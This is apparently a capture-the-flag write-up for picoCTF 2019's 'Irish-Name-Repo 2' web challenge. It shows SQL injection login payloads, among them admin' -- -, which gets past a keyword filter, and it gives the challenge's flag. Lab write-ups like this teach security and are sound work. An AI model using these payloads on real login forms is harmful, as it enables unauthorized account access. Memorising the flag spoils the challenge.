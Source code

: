 ## Irish-Name-Repo 2 (350)

#### Description
> There is a website running at https://2019shell1.picoctf.com/problem/60775/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:60775

#### Hint
> The password is being filtered.

#### Solution
Visit https://2019shell1.picoctf.com/problem/60775/login.html.
Login with this SQL injection like the Irish-Name-Repo 1:
```
Username: ' or 1=1 -- -
Password: anything
```
We will got the message: `SQLi detected.`
The server has filter keyword 'or'. But actually we don't need it.
```
Username: admin' -- -
Password: anything
```

#### Flag
`picoCTF{m0R3_SQL_plz_015815e2}`